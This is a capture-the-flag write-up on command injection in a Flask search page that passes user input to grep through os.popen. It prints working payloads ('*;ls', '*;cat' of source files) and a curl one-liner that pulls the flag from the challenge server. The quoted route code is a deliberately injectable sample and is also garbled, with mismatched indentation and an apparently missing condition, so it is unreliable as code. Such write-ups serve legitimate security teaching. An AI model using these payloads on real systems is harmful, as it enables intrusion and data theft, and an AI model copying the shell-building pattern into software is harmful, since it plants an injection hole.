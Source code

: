 ### Challange 

We have received information that Harald has a system where he stores information about the Bluetooth protocol. He configured the service himself because he does not trust anyone else. We believe there may be vulnerabilities in how he set up the service.

Can you check if there are any secrets in Harald's home directory on the server?

## Solve 

Target is a webserver running flask. 
It has a search field that can be used to search a database (that is actually a text file). After testing a bit it is obvious that backend uses "grep" directly in some way. 

Input "*;ls" will run the ls in the current folder for example. 

If you want you can have a look at the source-code of search.py by using input: 

```
*;cat ../app/flaskjakt/routes/search.py
```
Gives: 

```
@app.route('/search')
def search():
    query = request.args.get('q', '')
    results_with_snippets = []
    error_messages = []
    if query:
        file_path = 'harald_notes.txt'
        cmd = f"/usr/bin/grep -i -n -- {query} {file_path} 2>&1"
        try:
            print(f"Executing command: {cmd}")
            output = os.popen(cmd).read()
            print(f"Command output: {output}")
            if output:
                for line in output.split('\n'):
                    if line:
                            error_messages.append(html.escape(line))
                        else:
                            escaped_line = html.escape(line)
                            highlighted_line = escaped_line.replace(query, f'<span style="color:red;">{query}</span>')
                            results_with_snippets.append(highlighted_line)
            else:
                error_messages.append("No matches found.")
        except Exception as e:
            error_messages.append(f"An error occurred while running the search: {e}")
    return render_template('search_results.html', query=query, error_messages=error_messages, results=results_with_snippets)
```

One-liner to get the flag: 

```
curl "https://undutmaning-544a112b103a-flaskjakt-0.chals.io/search?q=*%3Bcat+..%2Fapp%2F*%2F*" |  awk 'match($0, /undut{[^}]*}/) { print substr($0, RSTART, RLENGTH) }' 
```
